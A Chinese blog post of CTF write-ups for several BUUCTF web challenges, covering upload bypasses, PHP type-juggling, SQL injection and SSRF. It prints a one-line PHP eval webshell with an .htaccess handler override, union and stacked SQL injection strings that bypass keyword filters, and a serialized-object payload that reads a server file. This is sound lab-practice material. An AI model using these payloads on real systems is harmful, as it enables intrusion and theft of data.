


# BUUCTF Web记录 4


已经到第4篇了，不容易啊

<!--more-->

## 0x00 [MRCTF2020]你传你🐎呢
[题目链接](https://buuoj.cn/challenges#[MRCTF2020]%E4%BD%A0%E4%BC%A0%E4%BD%A0%F0%9F%90%8E%E5%91%A2)

开头的日本人给我吓到了😅


试了一下，php/php2/php3/phtml什么的都传不了，jpg可以传

那么思路就比较明显了，又是上传`.htaccess`或者`.user.ini`文件来使得服务端将图片🐎当作php文件解析。

上传`.htaccess`文件，文件内容：

```
GIF89a
<FilesMatch "leo.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

这一步需要用Burp拦截请求，手动修改`Content-Type: application/octet-stream`为`Content-Type: image/png`。

然后上传`leo.jpg`，其中写入

```php
GIF89a
<script language='php'>@eval($_POST['ye']);</script>
```

蚁剑连接即可。

## 0x01 [MRCTF2020]Ez_bypass

[题目链接](https://buuoj.cn/challenges#[MRCTF2020]Ez_bypass)

这题就这？

根据提示看php源码

```html
I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
}Please input first
```

存在两层需要绕过

第一层，满足两个get请求参数的md5强相等但是参数不相等，这显然是传数组呀。需要记住的是，对于php后端，get请求传递数组的方式为`/?a[]=1`，这样相当于传递了`a = [1]`，`/?a[]=1&a[]=2`则相当于传递了`a = [1, 2]`。


第二层要求post的参数经`is_numeric()`返回`false`，但是要能够满足`==1234567`。百度一下`is_numeric()`绕过即可，最简单的方式就是post一个字符串`1234567 `，注意后面加了个空格。`1234567%00`同样可以满足要求。



### 参考链接

- [[CTF]php is_numeric绕过](https://blog.csdn.net/qq_33583069/article/details/115562765)

## 0x02 [网鼎杯 2018]Fakebook

[题目链接](https://buuoj.cn/challenges#[%E7%BD%91%E9%BC%8E%E6%9D%AF%202018]Fakebook)

fakebook，自己提交信息然后点join，就可以在网站上看到，~~这题应该是xss~~好吧并不是。

~~试了一下，用户名可以xss。~~



注册之后提交，发现浏览方式为请求`/view.php?no=1`，看一下能不能注入（不能只认为输入框才存在注入）。

`union select`被过滤了，可以用`union/**/select`绕过。尝试之后发现查询语句的结果有4列。同时为了得到回显信息，我们需要把`no=1`改为`no=-1`，使它自己本身的查询语句没有结果，这样才能让网页显示注入内容的回显。

`/view.php?no=-1 union/**/select 1,database(),3,4#`得到数据库名为`fakebook`

`/view.php?no=-1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema="fakebook"#`得到`fakebook`库中有个表为`users`

`/view.php?no=-1 union/**/select 1,group_concat(column_name),3,4  from information_schema.columns where table_name="users"#`得到表`users`的列为`no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS`

接下来不知道该干嘛了。web题不知道干嘛的话就先扫一下目录吧。

dirsearch扫出来源码备份`user.php.bak`文件（我至今仍然不知道为什么我用这东西一般都扫不出来什么有价值的结果）。里面定义了一个`UserInfo`类型，应该就是我们join时输入的内容。其中`isValidBlog()`会对`blog`字段过滤，`getBlogContents()`会请求博客内容并显示。看到这里就应该有点感觉了，这题的预期解应该是绕过blog字段的判断，然后ssrf读取服务端的flag。

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

再配合输入`/view.php?no=-1 union/**/select 1,group_concat(data),3,4 from users#`，会得到

```
O:8:"UserInfo":3:{s:4:"name";s:4:"test";s:3:"age";i:14;s:4:"blog";s:9:"dtest.com";},O:8:"UserInfo":3:{s:4:"name";s:3:"leo";s:3:"age";i:22;s:4:"blog";s:15:"1iu2y.github.io";},O:8:"UserInfo":3:{s:4:"name";s:40:"tes2";s:3:"age";i:14;s:4:"blog";s:9:"fwfwf.com";}
```

这刚好就是`UserInfo`的序列化结果。所以可以猜到view.php的逻辑就是根据`no`查询，再将查询结果的`data`栏进行反序列化，得到`blog`内容，然后调用`getblogcontents()`。所以我们通过修改反序列化的输入，就能够绕过`isValidBlog()`的判断。

而我们之前得到的列名结果为`no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS`，`data`在第四列，所以构造的反序列化字符串应该放在select的第四个位置。再结合php伪协议`file://`，以及`/flag.php`的请求结果为200（理论上来说这一点在扫描的时候就能够得知），可以构造以下payload：

```
/view.php?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:10;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'#
```

查看源码得到base64编码。


解码得到flag

```php
<?php

$flag = "flag{340198f3-c539-4aac-8a0c-5c6759155623}";
exit(0);
```

### 总结

这题结合了**get请求注入**、**目录扫描**、**反序列化**、**php伪协议**多个要素，是一道很有意思的题，也是目前为止我刷buuoj过程中碰到的最难的web题。

## 0x03 [GYCTF2020]Blacklist

[题目链接](https://buuoj.cn/challenges#[GYCTF2020]Blacklist)

`1' or 1=1#`看到当前表中存了3条记录。

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(2) {
  [0]=>
  string(1) "2"
  [1]=>
  string(12) "miaomiaomiao"
}

array(2) {
  [0]=>
  string(6) "114514"
  [1]=>
  string(2) "ys"
}
```

`1' union select 1,2,3 #`发现`set`/`select`等不论大小写都被过滤了。

```
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```

这又难到了我，看了一下报错注入也需要`select`啊，怎么操作呢？查阅博客后回想起，注入不是只有**union联合注入**、**updataxml报错注入**等，还有**堆叠注入**啊。

`1';show tables;#`查看所有表

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}
------------------------
array(1) {
  [0]=>
  string(8) "FlagHere"
}

array(1) {
  [0]=>
  string(5) "words"
}
------------------------
```

`1';desc FalgHere;#`查看`FlagHere`表的结构

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}
------------------------
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
------------------------
```

flag就在这里了。接下来可以用`prepare`设置计划任务，也可以`rename`更改表名，但是这些关键字都被过滤了。所以这里需使用`handler`来实现注入。:no_mouth:

> 在堆叠注入中，可以利用`handler`直接列出需要查询内容的表的数据，只需要知道表名
>
> - https://blog.csdn.net/mochu7777777/article/details/109577534

`1';handler FlagHere open;handler FlagHere read first;#`即可

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}
------------------------
array(1) {
  [0]=>
  string(42) "flag{eb3f6fba-9f4e-402a-9252-c258ce1fe7cb}"
}
------------------------
```

### 参考链接

- [i春秋2020新春公益赛 GYCTF有关SQL注入题复现](https://qwzf.github.io/2020/05/02/i%E6%98%A5%E7%A7%8B2020%E6%96%B0%E6%98%A5%E5%85%AC%E7%9B%8A%E8%B5%9B%20GYCTF%E6%9C%89%E5%85%B3SQL%E6%B3%A8%E5%85%A5%E9%A2%98%E5%A4%8D%E7%8E%B0/)

## 0x04 [GXYCTF2019]BabyUpload

文件上传，过滤了后缀名包含`ph`的文件。那最直接的思路就是上传图片马，然后再上传`.htaccess`或者`.user.ini`控制服务端将图片作为php解析。

随便访问一个不存在的目录，可以看到服务端用的是apache。

> # Not Found
>
> The requested URL /test was not found on this server.
>
> ------
>
> Apache/2.4.10 (Debian) Server at 5d755b3b-244b-42ae-b90c-2c9b6a481f76.node4.buuoj.cn Port 80

所以我们尝试上传`.htaccess`

```
<FilesMatch "leo.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

直接上传当然是不行的啦，得拦截然后修改为`Content-Type: image/jpeg`。然后常规操作，上传图片马再连接即可。

这里比较搞的一点是，我尝试了`Content-Type: image/jpg`和`Content-Type: image/png`，发现都不行，还以为这题又是一种新的绕过方式。再看了别人博客之后才发现，原来就是个`jpeg`的问题...

最后，关于`jpeg/jpg`/`png`/`bmp`/`gif`这些常见的图片文件头部结构，可以上[wikipedia](https://en.wikipedia.org/wiki/Main_Page)查看。

##  0x05 [BUUCTF 2018]Online Tool

php rce的题，这种类型的没学过啊，不会:persevere:

搁置一下，做道Pwn换换脑子🌚去。


